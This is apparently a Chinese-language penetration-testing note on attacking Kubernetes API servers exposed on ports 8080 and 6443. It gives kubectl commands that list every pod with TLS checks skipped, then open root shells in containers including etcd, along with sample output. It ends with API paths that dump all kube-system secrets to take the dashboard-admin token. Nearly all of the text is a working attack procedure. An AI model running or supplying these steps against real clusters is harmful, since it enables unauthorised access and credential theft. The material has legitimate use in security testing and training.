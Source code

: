 #### 查看 pod 节点信息

8080 端口

```
# 查看所有的pod
kubectl -s http://your-ip:8080 get pods -A
```

6443 端口

```
# 查看所有的pod
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get pods -A
-----
Please enter Username: 
Please enter Password: 
NAMESPACE     NAME                                 READY   STATUS    RESTARTS   AGE
default       nginx-deployment                     1/1     Running   0          16m
default       nginx-deployment-58d48b746d-d6x8t    1/1     Running   3          240d
...
```

#### 执行其他命令

通过获取到的 pods 节点信息，进入对应 docker 命令执行。-n 对应的是 NAMESPACE，-it 对应的是 NAME。

##### 8080 端口

```
# 进入命名空间为default，名字为hello-minikube的容器
kubectl -s http://your-ip:8080 exec -n default -it hello-minikube -- /bin/bash

# 进入命名空间为kube-system，名字为etcd-ubuntu的容器
kubectl -s http://your-ip:8080 exec -n kube-system -it etcd-ubuntu -- /bin/sh
```

##### 6443 端口

```
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ exec -it nginx-deployment -- /bin/bash
-----
Please enter Username: 
Please enter Password: 
root@nginx-deployment:/# id
uid=0(root) gid=0(root) groups=0(root)
```

### 获取 Token 登录 dashboard

访问如下接口，即可看到 K8s 所有的 Token，过滤找到 dashboard-admin 相关的 Token。

```
http://your-ip:8080/api/v1/namespaces/kube-system/secrets/

https://your-ip:6443/api/v1/namespaces/kube-system/secrets/
```

